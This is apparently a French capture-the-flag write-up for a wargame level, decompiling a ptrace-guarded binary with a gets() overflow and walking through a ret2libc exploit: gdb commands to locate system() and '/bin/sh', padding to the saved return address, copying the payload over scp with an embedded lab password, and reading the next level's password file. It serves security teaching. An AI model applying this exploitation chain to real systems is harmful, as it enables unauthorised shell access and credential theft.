 # Level 04

## Analyse du binaire

Lorsqu'on exécute le binaire, le message "Give me some shellcode, k" est affiché sur l'entré standard puis un input est attendu sur l'entrée standard. Ensuite le message "child is exiting..." est affiché.

On peut réécrire un code source en C de cette manière :

```c
int main(int argc, const char **argv)
{
	uint a;			  // esp+0x1c
	char buffer[128]; // esp+0x20
	uint b;			  // esp+0xa0
	uint c;			  // esp+0xa4
	uint d;			  // esp+0xa8
	pid_t child;	  // esp+0xac

	child = fork();
	bzero(buffer, 128);
	d = 0;
	a = 0;

	if (!child)
	{
		prctl(PR_SET_PDEATHSIG, 1);
		ptrace(PTRACE_TRACEME, 0, 0, 0);
		puts("Give me some shellcode, k");
		gets(buffer);
		return (0);
	}
	while (d != 11)
	{

		wait(&a);
		b = a;
		if (b & 0x7f != 0)
		{
			c = a;
			int tmp = (c & 0x7f + 1) >> 1;
			char last_byte = ((char *)&a)[3];
			last_byte >>= 1;
			if (last_byte > 0)
			{
				puts("child is exiting...");
				return 0;
			}
			d = ptrace(PTRACE_PEEKUSER, child, 2, 0);
		}
	}
	puts("no exec() for you");
	kill(child, SIGKILL);
}
```

La faille ici vient de l'utilisation de la fonction _gets_.

Le message sur la sortie standard nous pousse à insérer du shellcode et à l'exécuter. Cependant cela ne donne rien et on obtient le message _no exec() for you_.

## Ret2libc

On peut essayer d'utiliser un **ret2libc** et faire un appel à la fonction _system_.

On va donc écraser l'**eip sauvegardé** pour le remplacer par la fonction _system_ ayant pour argument "/bin/sh" et donc lancer un shell.

Il nous faut dans un premier temps, l'adresse de la fonction _system_.

On peut l'obtenir de cette manière avec gdb :

```gdb
b main
r
p system
```

Il faut ensuite une adresse qui pointe vers la chaîne de caractères "/bin/sh". On pourrait donc par exemple écrire dans une variable d'environnement "/bin/sh" et prendre l'adresse de cette variable.

On peut utiliser le programme suivant pour obtenir l'adresse exacte de la variable d'environement depuis la vm :

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
	if (argc != 2)
	{
		printf("%s <ENV_VAR>\n", argv[0]);
		return 1;
	}
	char* ptr = getenv(argv[1]);
	printf("The address of environment variable \"%s\" is %p\n", argv[1], ptr);
	return 0;
}
```

Plus simple, on peut rechercher la chaîne de caractères "/bin/sh" qui est présente dans la libc. Pour ce faire avec gdb :

```gdb
b main
r
find __libc_start_main,+99999999,"/bin/sh"
```

ou avec gdb peda :

```
b main
r
find "/bin/sh"
```

Il nous reste plus qu'à trouver le padding entre notre buffer et l'**eip sauvegardé**.

Pour le buffer on peut l'obtenir de cette manière :

```gdb
b *0x0x080486cd
r
p $esp+0x20
```

et pour l'**eip sauvegardé** :

```gdb
b main
r
i f
```

La commande `i f` (info frame) affiche sur la dernière ligne, la valeur de l'**eip sauvegardé**.

On peut donc générer notre shellcode (voir Ressources/generator.cpp).

### Commandes

Depuis l'hôte :

```bash
make && ./generator && sshpass -p 'kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf' scp -P 4242 shellcode level04@localhost:/tmp/
```

Sur la vm :

```bash
cat /tmp/shellcode - | ./level04
cat /home/users/level05/.pass
```
